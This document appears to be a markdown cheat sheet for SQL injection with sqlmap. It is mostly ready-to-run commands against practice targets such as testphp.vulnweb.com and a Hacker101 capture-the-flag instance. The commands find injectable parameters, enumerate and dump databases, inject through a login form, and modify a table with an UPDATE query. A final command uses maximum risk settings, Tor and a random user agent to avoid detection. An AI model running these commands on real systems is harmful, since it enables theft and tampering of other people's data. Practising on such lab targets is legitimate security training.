 



## Step 1

```sh
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1"
```

Result
- Vulneruble parameter
    - Type
    - Title
    - Payload
- back-end DBMS 
- Web application technology



## Step 2
```sh
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs
```

Result
- database names

At this moment check which databases are default in this DBMS, leave them and 
dump non-default databases.

MySQL default databases
- mysql 
- information_schema
- performance_schema
- sys


## Step 3
```sh
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D <db-name> --tables
```
Result
- tables names for <db-name>


## Step 4
```sh
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D <db-name> --dump
```

Result
- dump of <db-name>


## Update database
sqlmap -u https://b97b4ef2b348bba9ad205c30e5e971c4.ctf.hacker101.com/fetch?id=1 -D level5 --sql-query="UPDATE photos SET filename='files/purrfect.jpg' WHERE id=3;"


## Login form
sqlmap -u https://$TARGET/login --data "username=a&password=b" -p username --dump --output-dir="db-dump"



## -------------------------------------------------------------
- sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D <db-name> --cookie="security=low; PHPSESSID=13o5hlkjs3hur2pvnfkgim9t74" --dump-all --batch --output-dir="db-dump" --random-agent --risk=3 --level=5 --tor


Upload File
